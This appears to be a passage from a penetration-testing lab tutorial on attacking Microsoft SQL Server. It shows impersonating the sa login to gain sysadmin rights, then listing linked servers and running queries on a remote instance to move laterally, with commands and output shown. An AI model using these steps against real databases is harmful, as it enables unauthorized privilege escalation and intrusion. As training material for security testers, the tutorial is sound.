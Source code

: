 ```cmd-session
-----------
sa

(1 rows affected)

-----------
          1
```
**Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`

`MSSQL` default system schemas/databases:
`master` - keeps the information for an instance of SQL Server.

We can now execute any command as a sysadmin as the returned value `1` indicates. To revert the operation and return to our previous user, we can use the Transact-SQL statement `REVERT`.


## Communicate with Other Databases with MSSQL
`MSSQL` has a configuration option called `linked servers.` Linked servers are typically configured to enable the database engine to execute a Transact-SQL statement that includes tables in another instance of SQL Server, or another database product such as Oracle.

If we manage to gain access to a SQL Server with a linked server configured, we may be able to move laterally to that database server. Administrators can configure a linked server using credentials from the remote server. If those credentials have sysadmin privileges, we may be able to execute commands in the remote SQL instance. Let's see how we can identify and execute queries on linked servers.
```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

(2 rows affected)
```
As we can see in the query's output, we have the name of the server and the column `isremote`, where `1` means is a remote server, and `0` is a linked server.


```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

(1 rows affected)
```
https://www.hack-notes.pro/academy-hackthebox/attacking-common-services/attacking-common-services-hard
